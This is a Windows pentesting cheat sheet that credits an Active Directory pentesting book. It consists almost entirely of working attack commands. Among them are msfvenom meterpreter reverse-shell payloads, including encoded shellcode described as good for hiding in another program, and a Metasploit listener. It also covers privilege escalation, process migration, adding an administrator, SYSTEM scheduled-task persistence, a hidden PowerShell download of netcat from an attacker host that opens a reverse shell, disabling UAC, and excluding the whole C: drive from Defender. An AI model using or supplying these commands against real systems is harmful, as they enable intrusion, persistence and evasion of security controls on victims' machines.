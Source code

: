 VBA MSF:

    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-exe
    msfvenom -a x86 --platform windows -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=9988 -f vba-psh

Generate payload:

    msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.1 LPORT=4444 -e x86/shikata_ga_nai -f exe > payload.exe

Use listener:

    msfconsole -q -x "set payload windows/meterpreter/reverse_tcp;use exploit/multi/handler;set LHOST 192.168.1.1;set LPORT 4444;set ExitOnSession false;exploit -j;"

Inteactions with sessions:

    session -i 1  (means interact with session 1)
    shell (Launches cmd on victim machine)
    bg (backgrounding current meterpreter session)

PrivEsc Tool:

    run post/multi/recon/local_exploit_suggester
    set SESSIOS 1
    load incognito
    list tokens -u 

Stealthy Operations:

    migrate -N explorer.exe
    run post/windows/manage/migrate

VBA PowerShell Dropper
VBA Powercat

adding user to administrator group:
    
    cmd.exe /k net localgroup administrators user /add

restarting service:
    
    sc stop svcname & sc start svcname

command for compile on kali linux:

    x86_64-w64-mingw32-gcc yourcode.c -shared -o yourdllfile.dll

create scheduled task with cmd
    
    schtasks /create /tn "SecurityStartup" /tr "C:\pathtoprogram.exe" /sc ONSTART /ru SYSTEM /rl HIGHEST /f

create a meterpreter shellcode for single line good for hide in the another program

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f c | tr -d '\n' | sed 's/ //g'

runas.exe

    net users
    runas /user:usernameofvictim "cmd.exe"
    runas /user:Machinename\usernameofvictim "cmd.exe"

Powershell history file in environment

    cat $env:APPDATA\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

drop nc.exe (Netcat) Attacker machine and executes as a background command:

    powershell -Command "$out = Join-Path $env:Temp 'nc.exe'; Invoke-WebRequest -Uri 'http://192.168.1.10/nc.exe' -OutFile $out; Start-Process $out -ArgumentList '192.168.1.65 55522 -e powershell' -WindowStyle Hidden"

disable UAC with PowerShell command 

    Set-ItemProperty -Path REGISTRY::HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System -Name ConsentPromptBehaviorAdmin -Value 0


DisableUAC.reg

        Windows Registry Editor Version 5.00

        [HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Policies\System]
        "ConsentPromptBehaviorAdmin"=dword:00000000

ExclusionPath.bat

    powershell.exe -command "Add-MpPreference -ExclusionPath C:\"


### Based on "Isakov D Pentesting Active Directory and Windows based Infrastructure.pdf" 